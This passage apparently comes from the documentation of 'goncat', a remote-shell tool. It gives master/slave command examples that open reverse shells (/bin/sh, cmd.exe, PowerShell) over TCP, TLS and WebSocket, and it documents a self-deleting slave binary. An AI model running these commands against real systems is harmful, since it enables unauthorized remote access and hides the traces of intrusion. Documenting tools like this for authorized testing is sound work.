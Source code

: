 **Expected**: Interactive shell over WebSocket protocol.

#### Secure WebSocket with Authentication

```bash
# Master
goncat master listen 'wss://*:8443' --key mypassword --exec /bin/sh

# Slave
goncat slave connect wss://192.168.1.100:8443 --key mypassword
```

**Expected**: Encrypted WebSocket with password authentication.

#### Session Logging and Cleanup

```bash
# Master (logs session to file)
goncat master listen 'tcp://*:12345' --ssl --exec /bin/sh --log /tmp/audit.log

# Slave (deletes itself after connection ends)
goncat slave connect tcp://192.168.1.100:12345 --ssl --cleanup
```

**Expected**: Session is logged to `/tmp/audit.log` on master; slave binary is deleted after execution.

#### Increased Timeout for Slow Connections

```bash
# Master (30 second timeout)
goncat master listen 'tcp://*:12345' --timeout 30000 --ssl --exec /bin/sh

# Slave
goncat slave connect tcp://192.168.1.100:12345 --timeout 30000 --ssl
```

**Expected**: TLS handshake and mux operations won't timeout for 30 seconds.

### Windows-Specific Examples

#### Windows Reverse Shell with CMD

```bash
# Master (Linux/macOS)
goncat master listen 'tcp://*:12345' --exec cmd.exe --pty

# Slave (Windows)
goncat.exe slave connect tcp://192.168.1.100:12345
```

**Expected**: Windows command prompt over the connection.

#### Windows Reverse Shell with PowerShell

```bash
# Master (Linux/macOS)
goncat master listen 'tcp://*:12345' --exec powershell.exe --pty

# Slave (Windows)
goncat.exe slave connect tcp://192.168.1.100:12345
```

